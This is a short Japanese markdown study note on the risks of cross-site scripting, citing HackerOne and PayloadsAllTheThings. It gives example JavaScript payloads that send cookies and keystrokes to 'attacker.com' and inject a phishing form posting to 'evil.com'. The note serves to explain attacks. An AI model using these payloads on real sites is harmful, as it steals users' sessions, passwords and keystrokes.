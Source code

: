 ## ## 参考サイト
- https://www.hackerone.com/knowledge-center/how-xss-payloads-work-code-examples-and-how-prevent-them

## ## XSSのリスク
- CookieやSessionの窃取
```js
<script>new Image().src="https://attacker.com/cookie.php?cookie="+document.cookie</script>
```
- CSRFの窃取
```js
document.querySelector('[name=csrf]')
```
- フィッシング(偽UI挿入)
```js
document.body.innerHTML = '<form action="http://evil.com"><input name="pass"></form>';
```
- keylogger
	- 入力されたキーを1つずつ攻撃者へ送信する。
```js
document.onkeypress = function(e) {
  fetch("http://attacker.com/log?key=" + e.key);
};
```

---
## ## WordPress
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)